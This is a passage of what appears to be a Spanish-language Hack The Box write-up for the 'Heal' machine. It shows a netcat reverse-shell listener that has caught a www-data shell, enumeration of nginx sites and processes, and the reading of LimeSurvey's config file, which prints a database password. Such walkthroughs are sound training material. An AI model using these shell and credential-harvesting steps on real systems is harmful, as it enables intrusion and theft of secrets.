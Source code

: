 ```bash
[1]  + continued  rlwrap nc -lvnp 4443
www-data@heal:~/limesurvey/upload/plugins/ExampleSettings$ ls /home
ls /home
ralph  ron
```

Podemos ver lo sitios configurados en nginx: 
```bash 
www-data@heal:/etc/nginx/sites-enabled$ ls
ls
api.heal.htb  heal.htb  lime-survey.htb
```
Que ya habìamos agregado a nuestro /etc/hosts.

Mirando los procesos: 
```bash 
www-data@heal:/etc/nginx/sites-enabled$ ps auxww | grep -e 'node ' -e puma
ps auxww | grep -e 'node ' -e puma
ralph       1305  0.0  2.6 700048 103276 ?       Sl   May18   0:13 puma 6.4.3 (tcp://127.0.0.1:3001) [resume_api]
ralph       1473  0.0  1.1 791276 44272 ?        Sl   May18   0:00 node /home/ralph/resume-builder/node_modules/.bin/react-scripts start
ralph       1480  0.3  4.7 1401080 188632 ?      Sl   May18   2:51 node /home/ralph/resume-builder/node_modules/react-scripts/scripts/start.js
ralph       1490  0.0  2.7 1443316 109804 ?      Sl   May18   0:21 puma: cluster worker 0: 1305 [resume_api]
ralph       1494  0.0  2.7 1451388 108728 ?      Sl   May18   0:22 puma: cluster worker 1: 1305 [resume_api]
www-data   40322  0.0  0.0   3472  1672 pts/0    S+   06:54   0:00 grep -e node  -e puma
```

Hay un servidor web con [Puma](https://puma.io/)

Para `limesurvey` tenemos la configuración en `/var/www/limesurvey`, en `application/config` y en `config.php` podemos ver informacion interesante: 

```bash 
return array(                                                                                                                                                                               
        'components' => array(                                                                                                                                                              
                'db' => array(                                                                                                                                                              
                        'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',                                                       
                        'emulatePrepare' => true,                                                                                                                                           
                        'username' => 'db_user',                                                                                                                                            
                        'password' => 'AdmiDi0_pA$$w0rd',                                                                                                                                   
                        'charset' => 'utf8',                                                                                                                                                
                        'tablePrefix' => 'lime_',                                                                                                                                      
```
